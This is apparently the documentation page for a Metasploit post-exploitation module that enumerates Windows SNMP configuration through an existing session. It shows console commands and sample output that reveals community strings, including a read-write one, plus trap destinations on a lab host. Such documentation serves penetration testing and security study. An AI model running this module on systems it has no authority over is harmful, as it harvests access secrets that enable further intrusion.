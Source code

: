 ## Vulnerable Application

This module will enumerate the SNMP service configuration.

## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/gather/enum_snmp`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

## Scenarios

### Windows Server 2008 (x64)

```
msf6 > use post/windows/gather/enum_snmp
msf6 post(windows/gather/enum_snmp) > set session 1
session => 1
msf6 post(windows/gather/enum_snmp) > run

[*] Running module against WIN-17B09RRRJTG (192.168.200.218)
[*] Checking if SNMP service is installed
[*] 	SNMP is installed!
[*] Enumerating community strings
[*] 
[*] 	Community Strings
[*] 	=================
[*] 	
[*] 	 Name    Type
[*] 	 ----    ----
[*] 	 secret  READ & WRITE
[*] 	 test    READ ONLY
[*] 
[*] Enumerating Permitted Managers for Community Strings
[*] 	SNMP packets are accepted from any host
[*] Enumerating Trap configuration
[*] Community Name: test
[*] 	Destination: 127.0.0.1
[*] 	Destination: snmp.local
[*] Post module execution completed
```
